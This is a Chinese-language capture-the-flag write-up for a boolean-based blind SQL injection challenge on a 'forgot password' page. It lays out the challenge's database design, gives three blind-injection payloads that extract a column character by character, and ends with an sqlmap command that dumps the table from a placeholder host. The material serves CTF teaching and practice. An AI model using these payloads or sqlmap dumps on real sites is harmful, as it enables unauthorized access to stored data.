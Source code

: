 ## 题目名称
迷惑行为大赏（之）盲注

## 题目描述
题目里有红包信息，比赛结束时发放

hint: 没有源码，没有备份文件，不需要爆破，不需要扫描器，瞎注吧。

## 出题/解题思路
```bash
# database库
`user`表：
id,username,passw0rd
1,admin,327a6c4304ad5938eaf0efb6cc3e53dc=md5('flag')
2,root,8134b84030cca5285ed0e0b31ba06f10=md5('just')
3,master,a74eaee2c556e919790756dd07b6b555=md5('indb')

# 测试库
`15665611612`表：
id,values,what@you@want
1,272,e
2,314,pai
3,618,perfect
-1,877,flag{xxxxx-xxxx-xxxx-xxxxxxx}
666,666,领红包信息

`user`表
id,username,passw0rd,password+一堆乱七八蕉的字段名，没有数据
```

1. 数据库名/表名/字段名 是 关键词/全数字 时用反引号
2. 查询非默认连接的数据库的表数据，`数据库名.表名`
3. 库名为中文，随机填充中文数据，~~禁用ascii等参数~~，防止跑字母表（中文盲注）
4. ~~删除schema表数据或限制查询权限~~
5. 字段名包含`@`，sqlmap默认配置跑不出数据
6. ~~大小写敏感，flag值随机大小写~~

<br/>

**解题思路**

忘记密码页面布尔盲注，sqlmap可以直接梭出数据库、表、字段信息。禁用了mysql写shell。

注数据时在前端测试。

```sql
admin' and ((select length(`what@you@want`) from `测试`.`15665611612` where id=-1)<53)#

admin' and ((select mid(`what@you@want` from 11 for 1) from `测试`.`15665611612` where id=-1)='f')#

admin' and ((select mid(hex(`what@you@want`) from 1 for 1) from `测试`.`15665611612` where id=666)='e')#
```

sqlmap直接梭数据会这样

```bash
Database: 测试
Table: 15665611612
[5 entries]
+-----+----------+---------------+
| id  | values   | what@you@want |
+-----+----------+---------------+
| -1  | 877      | <blank>       |
| 1   | 272      | <blank>       |
| 2   | 314      | <blank>       |
| 3   | 618      | <blank>       |
| 666 | 666      | <blank>       |
+-----+----------+---------------+
```

也可以脚本直接跑。一道没有任何关键词过滤的入门级布尔盲注题，做不出来就真的有点F5了。

SQLMAP直接梭（字段加反引号）
```
sqlmap -u http://your-domain:8080/forgot.php --data "username=admin" --batch --dump --dbms mysql -D 测试 -T 15665611612 -C `what@you@want`
```

## flag

```
动态flag
```
